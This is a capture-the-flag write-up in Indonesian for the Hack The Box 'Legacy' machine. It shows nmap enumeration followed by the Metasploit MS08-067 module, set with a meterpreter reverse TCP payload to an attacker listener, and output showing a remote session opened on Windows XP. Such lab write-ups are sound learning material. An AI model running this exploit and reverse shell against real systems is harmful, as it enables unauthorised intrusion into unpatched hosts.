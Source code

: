 ```yaml
---
title: "[Writeup][HackTheBox] Legacy"
date: 2022-10-14T01:49:09-10:00
author : "justakazh"
tags : ["writeup", "hackhebox", "easy", "windows", "netapi", "smb", "hacking", "445"]
---
```



## Summary

Machine Name    : Legacy

Machine Author  : [ch4p]([Hack The Box](https://app.hackthebox.com/users/1))

Machine Difficult : Easy

Machine URL        : [Hack The Box](https://app.hackthebox.com/machines/2)



## NMAP Enumeration

Melakukan pengecheckan terhadap port yang umum

```bash
└─$ sudo nmap 10.129.227.181 
[sudo] password for punktester: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-14 05:47 HST
Nmap scan report for 10.129.227.181
Host is up (0.20s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

```

Melakukan pengecheckan versi yang digunakan terhadap port yang terbuka

```bash
┌──(punktester㉿kali)-[~/…/ctf/htb/easy/legacy]
└─$ nmap -sV 10.129.227.181 -p135,139,445  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-14 05:48 HST
Stats: 0:00:18 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 33.33% done; ETC: 05:48 (0:00:12 remaining)
Nmap scan report for 10.129.227.181
Host is up (0.20s latency).

PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.62 seconds
zsh: segmentation fault  nmap -sV 10.129.227.181 -p135,139,445

```

> Mesin tersebut menggunakan sistem operasi windows xp. 

## 445 - SMB

saya tertarik dengan port 445 yang dimana port ini digunakan untuk Server Message Block (SMB). selanjutnya saya melakukan searching terkait potensi kerntanan pada sistem tersebut, saya mendapat sebuah artikel yang menarik tentang exploitasi pada windows xp 



https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/ 



disini saya akan mencoba melakukan exploitasi port tersebut dengan menggunakan modul metasploit **exploit/windows/smb/ms08_067_netapi** (Microsoft Server Service Relative Path Stack Corruption) Modul ini mengeksploitasi kekurangan parsing pada path kanonikalisasi dari kode NetAPI32.dll melalui Layanan Server. Modul ini juga mampu melewati NX pada beberapa sistem operasi dan paket layanan.

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.129.227.181   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.129.227.181:445 - Automatically detecting the target...
[*] 10.129.227.181:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.129.227.181:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.129.227.181:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.129.227.181
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.227.181:1042 ) at 2022-10-14 06:12:08 -1000

meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```

disini saya berhasil mendapatkan akses server tersebut dengan memanfaatkan celah MS08-067.

